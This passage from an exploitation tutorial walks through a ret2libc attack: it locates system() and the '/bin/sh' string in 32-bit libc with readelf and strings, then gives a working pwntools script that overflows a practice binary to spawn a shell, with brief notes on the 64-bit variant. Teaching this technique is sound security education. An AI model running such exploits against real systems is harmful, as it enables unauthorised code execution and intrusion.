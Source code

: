 ### Getting the location of system()

To call system, we obviously need its location in memory. We can use the `readelf` command for this.

```
$ readelf -s /lib32/libc.so.6 | grep system

1534: 00044f00    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
```

The `-s` flag tells `readelf` to search for symbols, for example functions. Here we can find the offset of system from libc base is `0x44f00`.

### Getting the location of /bin/sh

Since `/bin/sh` is just a string, we can use `strings` on the dynamic library we just found with `ldd`. Note that when passing strings as parameters you need to pass a **pointer** to the string, not the hex representation of the string, because that's how C expects it.

```
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```

`-a` tells it to scan the entire file; `-t x` tells it to output the offset in hex.

### 32-bit Exploit

```python
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

### 64-bit Exploit

Repeat the process with the `libc` linked to the 64-bit exploit (should be called something like `/lib/x86_64-linux-gnu/libc.so.6`).

Note that instead of passing the parameter in after the return pointer, you will have to use a `pop rdi; ret` gadget to put it into the RDI register.
